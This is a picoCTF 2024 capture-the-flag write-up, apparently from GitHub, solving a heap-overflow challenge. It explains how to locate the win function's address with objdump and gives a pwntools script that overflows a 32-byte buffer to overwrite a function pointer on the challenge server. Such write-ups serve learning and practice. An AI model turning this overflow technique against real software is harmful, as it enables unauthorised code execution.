 # Description

_#Medium_<br>
_#Binary_Exploitation_<br>
_#picoCTF_2024_<br>
_#format_string_<br>
_#heap_<br>

Can you handle function pointers?<br>
Download the binary [here](../chall).<br>
Download the source [here](../chall.c).

## Solution

First, I executed the source code to observe the output. I tried entering different option numbers to see the corresponding results.

![image](https://github.com/user-attachments/assets/acbf2097-01fa-42fb-bfdc-08d69c4b812f)<br>
**From the heap table, we can see that both addresses are the same. This indicates that 32 bytes can be used to reach the boundary.*

I then reviewed the source code to identify any possible way to obtain the flag. Here’s what I discovered:

![image](https://github.com/user-attachments/assets/186485dd-0f6a-47b1-a7d1-d637d8dbc306)<br>
**To retrieve the flag, we need to call the win function.*

In this case, we need to access the win function to obtain the flag. Therefore, we must locate the address of the win function. To do this, I used the command `objdump -D chall > output.txt` to export the output to a .txt file. Search for win in the output.txt file to find its address. Then, convert the address to little-endian format by using [endian converter](https://blockchain-academy.hs-mittweida.de/litte-big-endian-converter/).

![image](https://github.com/user-attachments/assets/8c317638-ed8d-4628-8188-86c9ae43645d)<br>
**The highlighted part is the address of win function.*

> [!NOTE]
> When writing payload scripts, little-endian format must be used.

```python
from pwn import *

p = remote('mimas.picoctf.net', 64646)

p.sendline(b"2")
p.recvuntil(b"buffer:")
p.sendline(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\x11\x40\x00\x00\x00\x00\x00")

p.recvuntil(b"choice:")
p.sendline(b"4")
print(p.recvall())
```
**This is the payload script that we'll use.*

Run the script in an environment, and you'll obtain the flag.
